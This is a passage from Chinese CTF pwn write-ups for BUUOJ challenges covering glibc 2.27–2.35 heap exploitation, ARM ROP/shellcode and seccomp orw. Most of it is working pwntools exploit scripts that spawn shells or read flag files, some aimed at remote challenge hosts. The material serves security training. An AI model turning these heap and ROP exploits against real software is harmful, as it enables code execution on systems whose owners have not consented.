   payload = p64(0)*3 + p64(0x61) + p64(free_hook-0x8)

   realloc(0x48, payload)
   realloc(0, '')
   realloc(0x98, 'b')
   realloc(0, '')
   realloc(0x98, b'/bin/sh\0' + p64(libc_sys))
   dele()
```

### sctf_2019_easy_heap——unlink+stdout+tcache_poisoning

mmap没用上，直接暴力打`stdout`

先tcache free一波，然后改size后free到unsortedbin，tcache_poisoning改成`stdout`。之后的思路就跟上一题差不多了。

```python
def exploit():
   # no use
   io.recvuntil('Mmap: ')
   mmap_addr = int(io.recvline(), 16)
   print(hex(mmap_addr))
   # unlink part
   add(0x18) #0
   heap_ptr = add(0x68) #1
   elf_base = heap_ptr-0x18-0x202060
   log.success('heap_ptr: ' + hex(heap_ptr))
   add(0x4f8) #2, must be multiples of 0x100
   add(0x18) #3

   fake_chunk = p64(0)+p64(0x61)+p64(heap_ptr-0x18)+p64(heap_ptr-0x10)
   fake_chunk = fake_chunk.ljust(0x60, b'\0') + p64(0x60)
   edit(1, fake_chunk)
   dele(2)
   # free into tcache first
   add(0x68) #2
   [add(0x88) for i in range(7)] #4~10
   add(0x5f8) #11
   edit(4, p64(0)*2+p64(0x90)+p64(0x101)+b'\n') # bypass unlink check
   dele(2)
   [dele(i) for i in range(4, 11)]
   # free into unsorted bin
   edit(1, p64(0x458)+p8(0x80) + b'\n')
   edit(0, p64(0x30)+p64(0x91) + b'\n')
   edit(1, p64(0x458)+p8(0x90) + b'\n')
   dele(0)
   # IO_file attack
   add(0x18) #0
   # offset = int(input('input offset: '), 16) # debug
   offset = 5 # 1/16 brute force
   offset = (offset<<4)+7
   payload = p8(0x60) + p8(offset) + b'\n'
   edit(0, payload)
   # leak libc
   add(0x68) #2
   add(0x68) #4
   edit(4, p64(0xfbad1800)+p64(0)*3+p8(0x58)+b'\n')
   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\0'))-0x3e82a0
   log.success('libc_base: ' + hex(libc_base))
   # getshell
   edit(1, p64(0x18)+p64(libc_base+libc.sym['__free_hook']) + b'\n')
   edit(0, p64(libc_base+libc.sym['system']) + b'\n')
   edit(3, b'/bin/sh\x00' + b'\n')
   dele(3)
```

### SWPUCTF_2019_p1KkHeap——tcache_perthread_struct+orw

tcache_perthread_struct有两个功能：

- 前64个字节改cnt（从2.29之后是128个字节）
- 后面512个字节改对应size下一个堆块分配的位置

由于程序限制了free次数为3次，这里先通过`tcache_dup`控制`tcache_perthread_struct`改掉`cnt`，从而使后续的0x90的堆块free后直接变为unsortedbin。之后将0x80的堆块的下一个位置改为mmap分配的位置，写入orw读flag的shellcode；将0x90的堆块改为`__malloc_hook`或`__exit_hook`，写入mmap的地址。之后malloc或者exit一下就好了。

我是用的`__malloc_hook`，所有限制不多不少刚刚好。

> 电信宽带的shell居然没有回显，而校园网就有，无法理解。

```python
def exploit():
   add(0x88) # 0
   add(0x88) # 1
   dele(1)
   dele(1)
   show(1)

   io.recvuntil('content: ')
   heap_base = u64(io.recvline()[:-1].ljust(8, b'\x00')) - 0x2f0
   log.info('heap_base: ' + hex(heap_base))
   add(0x88) # 2
   edit(2, p64(heap_base+0x10))
   add(0x88) # 3
   add(0x88) # 4

   edit(4, b'\x3f'*16 + p64(0)*13 + p64(0x66660000))
   dele(0)
   show(0)

   io.recvuntil('content: ')
   libc_base = u64(io.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebca0
   log.info('libc_base: ' + hex(libc_base))

   edit(4, b'\x3f'*16 + p64(0)*12 + p64(libc_base + libc.sym['__malloc_hook']) + p64(0x66660000))
   add(0x88) # 5
   shellcode = shellcraft.open('/flag')
   shellcode += shellcraft.read('rax', 'rsp', 100)
   shellcode += shellcraft.write(1, 'rsp', 100)
   payload = asm(shellcode)
   edit(5, payload)

   add(0x78) # 6
   edit(6, p64(0x66660000))
   add(0x78) # 7
```


## libc 2.29 (>=libc 2.27-3ubuntu1.3, without tcache_dup)

### 巅峰极客gift——heap fengshui+tcache poisoning

我开始是直接按照`tcache_dup`做的，然后发现libc 2.27现在也不支持辣！

> 现今版本，2020年09月10日开始，从2.27-3ubuntu1.3开始，就已经对tcache做了部分修改，很接近2.29的，而现在的题目基本都是基于这种增强型版本的，已经不存在double free了。
>
> https://bbs.pediy.com/thread-269145.htm#msg_header_h1_4

正解如下:

> 因为这道题idx太少了(10)，直接free掉7个chunk填满tcache_list不可行，所以我是通过bargain函数修改fd指针到一个fake_chunk，这个fake_chunk大小属于unsortedbin范围，且可通过add一次0x60大小堆块修改到下一个已被free的0x100大小tcache去改掉它的next指针。
>
> 这样的话不仅可以泄露unsorted bin 的fd，还可以顺带改掉下一个已经被free掉的tcache的fd，实现tcache_dup。
> ————————————————
> 版权声明：本文为CSDN博主「Loτυs」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/Invin_cible/article/details/126396402

堆布局大致如下：



```python
def exploit():
   payload = b'a'*0xa0 + p64(0) + p64(0x421)
   add(1, payload) #0
   add(1, 'gggg') #1
   add(1, 'kkkk') #2
   add(1, 'dddd') #3
   add(1, b'a'*0x80 + p64(0) + p64(0x71)) #4
   dele(0)
   dele(1)

   bargain(1, -0xc0)

   add(1, 'xxxx') #5
   add(1, 'yyyy') #6

   dele(6)

   show(6) 
   libc_base = int(io.recvuntil(b'\n')[:-1],10) - malloc_offset
   log.success(message='libc_base: ' + hex(libc_base))
   one_gadget = libc_base + ogg_offset
   free_hook = libc_base + libc.sym['__free_hook']

   dele(2)
   dele(1)
   add(2, p64(free_hook-0x10)*10) #7
   add(1, '/bin/sh\0') #8
   add(1, p64(one_gadget)) #9

   dele(3)
```

### [2020 新春红包题]3——tcache stashing unlink attack+orw rop

#### 攻击目标

1. 向任意指定位置写入指定值。
2. 向任意地址分配一个Chunk。

#### 攻击前提

1. 能控制 Small Bin Chunk 的 bk 指针。
2. 程序可以越过Tache取Chunk。(使用calloc即可做到)
3. 程序至少可以分配两种不同大小且大小为unsorted bin的Chunk。

> https://www.anquanke.com/post/id/198173?display=mobile#h3-3

题目的要求是想让在一个指定位置写一个大于`0x7f0000000000`的值，但是libc2.29对`unsortedbin`做出了更多限制，因此`unsortedbin attack`失效。

由于程序使用calloc分配内存，所以不能使用`tcache poisoning`的方式写`malloc_hook`等区域的值。但calloc恰好又是使用`tcache stashing unlink attack`的必需条件，正所谓“上帝关了一扇门 必定会再为你打开另一扇窗”。

之后使用`rop`方式`orw`读取`flag`即可。

```python
def exploit():
   [[add(15, 4, 'chunk15\0'*4), dele(15)] for _ in range(7)]
   [[add(14, 2, 'chunk14\0'*4), dele(14)] for _ in range(6)]
   show(15)
   heap_base = u64(io.recvline()[-7:-1].ljust(8, b'\0')) - 0x26c0
   log.info('heap_base: ' + hex(heap_base))
   
   add(1, 4, 'chunk1\0'*4)
   add(13, 4, 'chunk13\0'*4) # avoid consolidate with top chunk
   dele(1)
   show(1)
   libc_base = u64(io.recvline()[-7:-1].ljust(8, b'\0')) - 0x1e4ca0
   log.info('libc_base: ' + hex(libc_base))
   # now the 0x410 tcachebin is full, and the 0x100 tcachebin has 6 chunks

   add(13, 3, 'chunk13\0'*4) # 0x410 - 0x310 = 0x100 unsortedbin
   add(13, 3, 'chunk13\0'*4) # 0x310 > 0x100, so it will be put into 0x100 smallbin
   # the 0x410 unsortedbin turns to 0x100 smallbin

   add(2, 4, 'chunk2\0'*4)
   add(13, 4, 'chunk13\0'*2) # avoid consolidate with top chunk
   dele(2)
   add(13, 3, 'chunk13\0'*4) # again
   add(13, 3, 'chunk13\0'*4) 
   # another 0x100 smallbin, now smallbin: chunk2 -> chunk1
   payload = b'0'*0x300+p64(0)+p64(0x101)+p64(heap_base+0x37e0)+p64(heap_base+0x250+0x10+0x800-0x10)
   edit(2, payload)
   add(3, 2, 'chunk3\0'*4)
   # tcache stashing unlink attack -> write main_arena on chunk2's bk address
   pop_rdi_ret = libc_base + 0x0000000000026542
   pop_rsi_ret = libc_base + 0x0000000000026f9e
   pop_rdx_ret = libc_base + 0x000000000012bda6
   leave_ret = libc_base + 0x0000000000058373
   file_name_addr = heap_base + 0x0000000000004b40
   flag_addr = file_name_addr + 0x0000000000000200
   orw  = b'/flag\0\0\0'
   orw += p64(pop_rdi_ret)
   orw += p64(file_name_addr)
   orw += p64(pop_rsi_ret)
   orw += p64(0) # 0 is stdin, 1 is stdout, 2 is stderr
   orw += p64(libc_base+libc.symbols['open'])
   orw += p64(pop_rdi_ret)
   orw += p64(3) # 3 and so on is for new file descriptor
   orw += p64(pop_rsi_ret)
   orw += p64(flag_addr)
   orw += p64(pop_rdx_ret)
   orw += p64(0x40)
   orw += p64(libc_base+libc.symbols['read'])
   orw += p64(pop_rdi_ret)
   orw += p64(1)
   orw += p64(pop_rsi_ret)
   orw += p64(flag_addr)
   orw += p64(pop_rdx_ret)
   orw += p64(0x40)
   orw += p64(libc_base+libc.symbols['write'])

   add(4, 4, orw)
   io.sendline('666')
   io.recvuntil('What do you want to say?')
   io.send(b'a'*0x80 + p64(file_name_addr) + p64(leave_ret))
```

> 彩蛋：
>
> 这里将`flag`换成`links.txt`后，有一个链接 https://buuoj.cn/files/192c547dae7b582f8b5b4665e0ad3a1d/akiwuhwh
>
> 可惜它404了

### hitcon_ctf_2019_one_punch_man——tcache stashing unlink attack+orw rop2

关于unlink attack部分，这里浓缩一下过程：

- 创造六个0x100的tcache
- 创造两个0x100的small bin
- 控制后创造的smallbin的fd与bk指针，把fd改成前一个smallbin的`prev_size`部分，把bk改成你想覆盖libc地址的位置（可以不是0x10的整数倍）
- `calloc(0xf0)`

这里解释一下为什么是`add rsp 0x48; ret`

最后一步调用calloc栈空间如下，此时rsp与输入相差0x18：



到`call malloc_hook(rax)`的时候，偏移从0x18变成了0x40，而call本身会抬栈0x8。因此0x40+0x8=0x48



```python
def getorw(libc_base, heap_base, offset):
   pop_rdi = libc_base + 0x0000000000026542
   pop_rsi = libc_base + 0x0000000000026f9e
   pop_rdx = libc_base + 0x000000000012bda6
   pop_rax = libc_base + 0x0000000000047cf8
   syscall = libc_base + 0x00000000000cf6c5
   flag_addr = heap_base + offset
   #open
   orw = p64(pop_rdi)+p64(flag_addr)
   orw += p64(pop_rsi)+p64(0)
   orw += p64(pop_rdx)+p64(0)
   orw += p64(pop_rax)+p64(2)
   orw += p64(syscall)
   #read
   orw += p64(pop_rdi)+p64(3)
   orw += p64(pop_rsi)+p64(heap_base+0x260)
   orw += p64(pop_rdx)+p64(0x70)
   orw += p64(pop_rax)+p64(0)
   orw += p64(syscall)
   #write
   orw += p64(pop_rdi)+p64(1)
   orw += p64(pop_rsi)+p64(heap_base+0x260)
   orw += p64(pop_rdx)+p64(0x70)
   orw += p64(pop_rax)+p64(1)
   orw += p64(syscall)
   return orw

def exploit():
   # leak heap
   add(0, 'a'*0x388)
   dele(0)
   edit(0, 'aaaaaaaa')
   show(0)
   io.recvuntil('aaaaaaaa')
   heap_base = u64(io.recv(6).ljust(8, b'\0')) & 0xfffffffffffff000
   log.success('heap_base: ' + hex(heap_base))
   # leak libc
   [[add(1, 'a'*0x388), dele(1)] for i in range(6)]
   add(2, 'a'*0x388)
   add(1, b'/bin/sh\0'.ljust(0x88, b'\0'))
   dele(2)
   show(2)
   libc_base = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\0')) - 0x1e4ca0
   log.success('libc_base: ' + hex(libc_base))
   # prepare __malloc_hook on 0x221
   add(0, 'a'*0x218)
   dele(0)
   edit(0, p64(libc_base + libc.sym['__malloc_hook']))
   # make 6 0x100 tcache bins
   [[add(1, 'a'*0xf8), dele(1)] for i in range(6)]
   # make 2 0x100 smallbins
   add(2, 'a'*0x388)
   add(1, 'a'*0x88)
   dele(2)
   add(1, 'a'*0x288)
   add(1, 'a'*0x288) # smallbin1

   add(2, 'a'*0x388)
   add(1, 'a'*0x288)
   dele(2)
   add(1, 'a'*0x288) 
   add(1, 'a'*0x288) # smallbin2, 0xb20 overflow
   # tcache stashing unlink attack
   payload = b'/flag'.ljust(0x280, b'\0')+p64(0)+p64(0x101)+p64(heap_base+0x26f0)+p64(heap_base+0x1f)
   edit(2, payload)
   add(1, 'a'*0xf8)
   # orw & get flag
   sec('yyyyyyyy')
   magic_rop = libc_base + 0x000000000008cfd6 # add rsp 0x48; ret
   payload = p64(magic_rop)
   sec(payload)
   my_orw = getorw(libc_base, heap_base, 0x2b20)
   pause()
   add(0, my_orw)
```

 

## libc 2.35

### corctf2022_cshell2——heap overflow+decrypt safe-linking+tcache poisoning

io难调得要命，搞不好就会出现`sh: 1: 2: not found`这种离成功近在咫尺的错误。

甚至不能调试！！！

讽刺的是：`corctf{m0nk3y1ng_0n_4_d3bugg3r_15_th3_b35T!!!}`

```python
# all io.sendline() or the stream will stuck

def decrypt_pointer(leak: int) -> int:
    parts = []

    parts.append((leak >> 36) << 36)
    parts.append((((leak >> 24) & 0xFFF) ^ (parts[0] >> 36)) << 24)
    parts.append((((leak >> 12) & 0xFFF) ^ ((parts[1] >> 24) & 0xFFF)) << 12)

    return parts[0] | parts[1] | parts[2]

def exploit():
   # leak libc
   add(0, 1032, '//bin/sh\0', '', '', 0, '')
   add(1, 1032, '', '', '', 0, '')

   for i in range(2, 11):
      add(i, 1032, '', '', '', 0, '')
   for i in range(2, 9):
      dele(i)

   dele(1) # unsortedbin
   edit(0, '', '', '', 0, b'a'*(1032-64+7)) # last byte is for '\n'
   show(0)

   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['main_arena'] - 0x60
   # 0x1f2ce0 in glibc-2.35
   log.success('libc_base: ' + hex(libc_base))

   # leak heap
   add(11, 1032, '', '', '', 0, '') #8
   dele(9)
   edit(11, '', '', '', 0, b'b'*(1032-64)+b'abcdefg')
   show(11)
   io.recvuntil('abcdefg\n')
   heap_base = decrypt_pointer(u64(io.recvuntil(b'1 Add\n')[:-6].ljust(8, b'\x00'))) - 0x1000
   log.success('heap_base: ' + hex(heap_base))
   
   # getshell
   fake_chunk = b'c'*(1032-64)+p64(0x411)+p64(((heap_base+0x2730)>>12)^0x404010) # buf overflow, make the chunk aligned to 16 bytes
   edit(11, '', '', '', 0, fake_chunk)
   add(12, 1032, '', '', '', 0, '') # nothing

   io.sendline('1') # 0x2730 = 0x250 + 0x410*9 + 0x10 + 0x40
   io.sendline('13')
   io.sendline('1032')
   io.send('n1rvana') # since we make the chunk at 0x401010, it's null and we can fill anything
   io.send(p64(libc_base+libc.sym['system'])) # where the free.got is
   io.send(p64(libc_base+libc.sym['puts'])) # keeping the same
   io.sendline('0') 
   io.send(p64(libc_base+libc.sym['scanf'])) # keeping the same
   dele(0)
```

# arm

## jarvisoj_typo——arm rop

arm寄存器介绍：


必装软件

```sh
sudo apt-get install gcc-arm-linux-gnueabi gcc-aarch64-linux-gnu gdb-multiarch
```

调试

```sh
qemu-aarch64 -g 1234 -L /usr/aarch64-linux-gnu ./pwn
pwndbg> target remote localhost:1234
```

**注意32位的arm也是寄存器传参**，`r0`是第1个参数，`r1`是第二个参数，以此类推。

exp(debuggable):

```python
from pwn import *
elf_path = '/home/junyu33/Desktop/tmp/typo'
#libc_path = '/home/junyu33/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6'
#libc_path = './libc/libc.so_2.6'

def exploit():
   bin_sh = 0x6c384
   system = 0x110b4
   pop_r0_r4_pc = 0x20904

   payload = b'a'*112 + p32(pop_r0_r4_pc)+ p32(bin_sh) + p32(0) + p32(system)
   io.sendline()
   io.send(payload)

if __name__ == '__main__':
   context(arch='arm', os='linux', log_level='debug')
   io = process(['qemu-arm', '-g', '1234', elf_path])
   elf = ELF(elf_path)
   #libc = ELF(libc_path)

   if(sys.argv.__len__() > 1):
      if sys.argv[1] == 'debug':
         gdb.attach(io, 'target remote localhost:1234')
      elif sys.argv[1] == 'remote':
         io = remote('node4.buuoj.cn', 29593)


   exploit()
   io.interactive()
   io.close()
```


## shanghai2018_baby_arm——arm ret2csu+vmprotect

aarch64寄存器介绍：


> https://www.cnblogs.com/hac425/p/9905475.html
>
> https://blog.csdn.net/qq_41202237/article/details/118518498

`vmprotect`第一个参数是addr，第二是length，第三个参数是权限，具体如下：

```c
#define PROT_READ	0x1     /* Page can be read.  */
#define PROT_WRITE	0x2     /* Page can be written.  */
#define PROT_EXEC	0x4     /* Page can be executed.  */
#define PROT_NONE	0x0     /* Page can not be accessed.  */
```


aarch64中也有类似于`libc_csu_init`的`init`函数，这里展示后半部分：

```asm
.text:00000000004008AC                               loc_4008AC                    ; CODE XREF: init+60↓j
.text:00000000004008AC A3 7A 73 F8                   LDR             X3, [X21,X19,LSL#3] ;mov X3, [X21+X19+LSL<<3]
.text:00000000004008B0 E2 03 16 AA                   MOV             X2, X22 ;argument 2
.text:00000000004008B4 E1 03 17 AA                   MOV             X1, X23 ;argument 1
.text:00000000004008B8 E0 03 18 2A                   MOV             W0, W24 ;argument 0
.text:00000000004008BC 73 06 00 91                   ADD             X19, X19, #1
.text:00000000004008C0 60 00 3F D6                   BLR             X3 ;jmp X3
.text:00000000004008C0
.text:00000000004008C4 7F 02 14 EB                   CMP             X19, X20
.text:00000000004008C8 21 FF FF 54                   B.NE            loc_4008AC
.text:00000000004008C8
.text:00000000004008CC
.text:00000000004008CC                               loc_4008CC                    ; CODE XREF: init+3C↑j
.text:00000000004008CC F3 53 41 A9                   LDP             X19, X20, [SP,#var_s10] ;x19 = [sp+0x10], x20 = [sp+0x18]
.text:00000000004008D0 F5 5B 42 A9                   LDP             X21, X22, [SP,#var_s20]
.text:00000000004008D4 F7 63 43 A9                   LDP             X23, X24, [SP,#var_s30]
.text:00000000004008D8 FD 7B C4 A8                   LDP             X29, X30, [SP+var_s0],#0x40 ;x29 = [sp], x30 = [sp+9], sp+=0x40
.text:00000000004008DC C0 03 5F D6                   RET
```

exp:

```python
def exploit():
   offset = 72
   mprotect = 0x4007e0
   buf = 0x411068
   shellcode = asm(shellcraft.aarch64.sh())

   payload = p64(mprotect) + shellcode
   io.send(payload)

   payload = b'a'*72 + p64(0x4008cc) # ret2csu

   payload += p64(0) + p64(0x4008ac) # x29, x30
   payload += p64(0) + p64(1) # x19, x20
   payload += p64(buf) + p64(7) # x21, x22
   payload += p64(0x1000) + p64(buf) # x23, x24
   payload += p64(0) + p64(buf+8) # x29', x30' (new frame)

   io.sendline(payload)   
```

## inctf2018_wARMup——arm shellcode

注意arm架构中的bss段是可执行的，可以直接在bss段上布置shellcode。

本来想用shellcraft的，结果出锅了，随便从网上扒了一段shellcode就过了，但是本地过不了。

`b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78'`

```python
from pwn import *
elf_path = '/home/junyu33/Desktop/tmp/wARMup'
#libc_path = '/home/junyu33/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6'
libc_path = '/usr/arm-linux-gnueabihf/lib/libc.so.6'

def exploit():
   shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78'
   pop_r3_pc = 0x10364
   bss = 0x21034

   payload = b'a'*0x64 + p32(bss+0x68) + p32(pop_r3_pc) + p32(bss) + p32(0x10530)
   io.send(payload)
   payload = shellcode.ljust(0x68, b'\0') + p32(bss) + p32(bss)
   io.send(payload)

if __name__ == '__main__':
   context(arch='arm', os='linux', log_level='debug')
   elf = ELF(elf_path)
   libc = ELF(libc_path)

   if(sys.argv.__len__() > 1):
      if sys.argv[1] == 'debug':
         io = process(['qemu-arm', '-g', '1234', '-L', '/usr/arm-linux-gnueabihf', elf_path])
         gdb.attach(io, 'target remote localhost:1234')
      elif sys.argv[1] == 'remote':
         io = remote('node4.buuoj.cn', 25121)
   else:
      io = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabihf', elf_path])

   exploit()
   io.interactive()
   io.close()
```


# misc

## cicsn_2019_ne_5——sh

`sh`跟`/bin/sh`都可以打开shell。

```bash
ROPgadget --binary pwn --string 'sh' 
```

payload结构：

```python
b'a'*(0x48+4) + p32(sys_addr) + p32(main_addr) + p32(bin_sh)
```

## jarvisoj_level3——find /bin/sh using pyscript

```python
def exploit():
   #libc = ELF('./libc/libc-2.30.so')
   libc = ELF('./libc/libc-2.23.so')

   elf = ELF('./level3')
   write_plt = elf.plt['write']
   write_got = elf.got['write']
   read_got = elf.got['read']
   vuln = elf.sym['vulnerable_function']

   io.recvuntil('Input:\n')
   payload1 = b'a'*140 + p32(write_plt) + p32(vuln) + p32(1) + p32(read_got) + p32(4)
   io.send(payload1)

   read_addr = u32(io.recv(4))
   libc_base = read_addr - libc.sym['read']
   log.success('libc_base'+hex(libc_base))
   bin_sh = libc_base + next(libc.search(b'/bin/sh')) # libc.search('/bin/sh').next() is out of date
   sys = libc_base + libc.sym['system']

   payload2 = b'a'*140 + p32(sys) + p32(vuln) + p32(bin_sh)
   io.send(payload2)
```

## ez_pz_hackover_2016——cyclic find offset

因为有时ida的分析也是错的。

`cyclic 50`生成长度为50的字符串序列。

当`gdb-peda`动调时`segmentation fault`，可以通过截取`ebp`对应的字符串来确定输入位置到`ebp`的偏移。

`cyclic -l 'xxxx'`得到结果加4或者8就是应该填充的大小。

## pwnable_orw

> orw就是指你的系统调用被禁止了，不能通过子进程去获得权限和flag，只能在该进程通过 open , read ,write来得到flag.
>
> seccomp 是 secure computing 的缩写，其是 Linux kernel 从2.6.23版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。
> ————————————————
> 版权声明：本文为CSDN博主「半岛铁盒@」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/weixin_45556441/article/details/117852436

```c
prctl(38, 1, 0, 0, 0); // elevation is forbidden
prctl(22, 2, &v1); // only open() read() write() is allowed
```

也可以通过seccomp-tools直接查看：

```sh
$ seccomp-tools dump ./asm
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 1233
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

exp:

```python
# https://blog.csdn.net/weixin_45556441/article/details/117852436
from pwn import *
context.arch = 'i386'
p = remote('node3.buuoj.cn',28626)
shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read('eax','esp',100)
shellcode += shellcraft.write(1,'esp',100)
payload = asm(shellcode)
p.send(payload)
p.interactive()
```

or with asm code:

```python
# https://blog.csdn.net/weixin_45556441/article/details/117852436
from pwn import *
from LibcSearcher import *

context(os = "linux", arch = "i386", log_level= "debug")
p = remote("node3.buuoj.cn", 27008)

shellcode = asm('push 0x0;push 0x67616c66;mov ebx,esp;xor ecx,ecx;xor edx,edx;mov eax,0x5;int 0x80')
shellcode+=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x100;int 0x80')
shellcode+=asm('mov eax,0x4;mov ebx,0x1;int 0x80')
p.sendlineafter('shellcode:', shellcode)

p.interactive()
```

## [ZJCTF 2019]Login

> 小技巧：在伪代码的页面按Tab可以切换到汇编代码。

其实是一道C++逆向，看起来有点麻烦，segmentation fault的原因是执行了`call rax`

```assembly
lea     rdx, [rbp+s]
lea     rax, [rbp+s]
mov     rcx, rdx
mov     edx, offset format ; "Password accepted: %s\n"
mov     esi, 50h ; 'P'  ; maxlen
mov     rdi, rax        ; s
mov     eax, 0
call    _snprintf
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
mov     rax, [rbp+var_68]
mov     rax, [rax]
mov     rax, [rax]
call    rax
jmp     short loc_400A62
```

而`[rbp+var_68]`又是函数的第一个参数

```assembly
; unsigned __int64 __fastcall password_checker(void (*)(void))::{lambda(char const*,char const*)#1}::operator()(void (***)(void), const char *, const char *)
_ZZ16password_checkerPFvvEENKUlPKcS2_E_clES2_S2_ proc near

; __unwind {
push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_68], rdi ; HERE!!!
mov     [rbp+s1], rsi
mov     [rbp+s2], rdx
mov     rax, fs:28h
mov     [rbp+var_8], rax
xor     eax, eax
mov     rdx, [rbp+s2]
mov     rax, [rbp+s1]
mov     rsi, rdx        ; s2
mov     rdi, rax        ; s1
call    _strcmp
test    eax, eax
jnz     short loc_400A58
```

回到`main`函数，可以看到`_Z16password_checkerPFvvE`的返回值传给了`[rbp+var_130]`，最后作为了`_ZZ16password_checkerPFvvEENKUlPKcS2_E_clES2_S2_`，也就是上一个函数的第一个参数。

```assembly
lea     rax, [rbp+var_131]
mov     rdi, rax
